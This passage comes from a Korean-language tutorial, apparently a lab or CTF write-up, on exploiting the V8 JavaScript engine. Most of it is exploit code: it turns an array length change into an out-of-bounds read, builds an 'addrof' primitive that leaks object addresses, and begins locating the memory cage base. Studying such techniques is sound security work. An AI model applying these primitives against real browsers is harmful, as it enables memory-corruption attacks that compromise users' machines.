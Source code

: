 ### Get address of arbitrary object

```js
let oob_arr;
let obj_arr;
let tmp_obj = {};

(function layout() {
    oob_arr = [1.1];
    obj_arr = [tmp_obj];
})();

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${hex(oob_arr.length)}`);

% DebugPrint(oob_arr);
% DebugPrint(obj_arr);
```

함수 내부에서 `oob_arr`과 `obj_arr`을 연속해서 정의하면 메모리 상에서 인접한 위치에 할당된다. 따라서 `oob_arr`을 통해 `obj_arr`의 메모리에 접근하여 값을 읽고 쓸 수 있다.

![image](https://github.com/user-attachments/assets/69116bc9-f203-4ddf-9462-de74722367c5)

![image](https://github.com/user-attachments/assets/d8fbee66-8bf4-446f-abc1-031de647c244)

![image](https://github.com/user-attachments/assets/3d91cc6e-e2f8-43bc-a3f3-1a863892a178)

```js
// get (compressed) address of |obj|
function addrof(obj) {
    obj_arr[0] = obj;
    return ftoi(oob_arr[4]) & 0xffffffffn;
}

// addrof test
let tmp_obj_addr = addrof(tmp_obj);
console.log(`[+] tmp_obj_addr == ${hex(tmp_obj_addr)}`);
```

![image](https://github.com/user-attachments/assets/d35b32e8-c778-4982-89de-91a31c70f33a)

### Get base address of virtual memory cage

```js
let oob_arr;
let obj_arr;
let tmp_obj = {};
let typed_arr;

(function layout() {
    oob_arr = [1.1];
    obj_arr = [tmp_obj];
    typed_arr = new BigUint64Array(1);
})();

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${hex(oob_arr.length)}`);

% DebugPrint(oob_arr);
% DebugPrint(typed_arr);
```
